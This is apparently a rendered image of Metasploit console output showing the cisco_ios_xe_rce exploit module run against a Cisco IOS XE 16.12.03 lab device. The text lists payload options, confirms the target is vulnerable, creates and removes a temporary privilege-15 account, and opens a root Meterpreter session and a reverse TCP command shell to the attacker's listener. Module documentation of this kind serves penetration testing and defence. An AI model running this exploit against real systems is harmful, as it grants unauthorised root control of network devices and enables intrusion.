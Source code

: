 ```
   FETCH_URIPATH                    no        Local URI to use for serving payload
   LHOST           eth0             yes       The listen address (an interface may be specified)
   LPORT           4444             yes       The listen port


   When FETCH_FILELESS is false:

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_FILENAME      UoDekiVI         no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf exploit(linux/misc/cisco_ios_xe_rce) > check 
[+] 192.168.86.114:443 - The target is vulnerable. Cisco IOS XE Software, Version 16.12.03
msf exploit(linux/misc/cisco_ios_xe_rce) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 16.12.03
[*] Created privilege 15 user 'XpJaBQIt' with password 'qEBrzlDh'
[*] Removing user 'XpJaBQIt'
[*] Sending stage (3045380 bytes) to 192.168.86.114
[*] Meterpreter session 7 opened (192.168.86.122:4444 -> 192.168.86.114:61922) at 2025-03-03 20:34:05 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : test2_c1000v
OS           :  (Linux 4.19.64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

```
msf exploit(linux/misc/cisco_ios_xe_rce) > set target 0
target => 0
msf exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/linux/http/x64/shell/reverse_tcp
payload => cmd/linux/http/x64/shell/reverse_tcp
msf exploit(linux/misc/cisco_ios_xe_rce) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 16.12.03
[*] Created privilege 15 user 'vmoCbNcA' with password 'UgDnLaCG'
[*] Removing user 'vmoCbNcA'
[*] Sending stage (38 bytes) to 192.168.86.114
[*] Command shell session 8 opened (192.168.86.122:4444 -> 192.168.86.114:61940) at 2025-03-03 20:34:58 +0000

id
```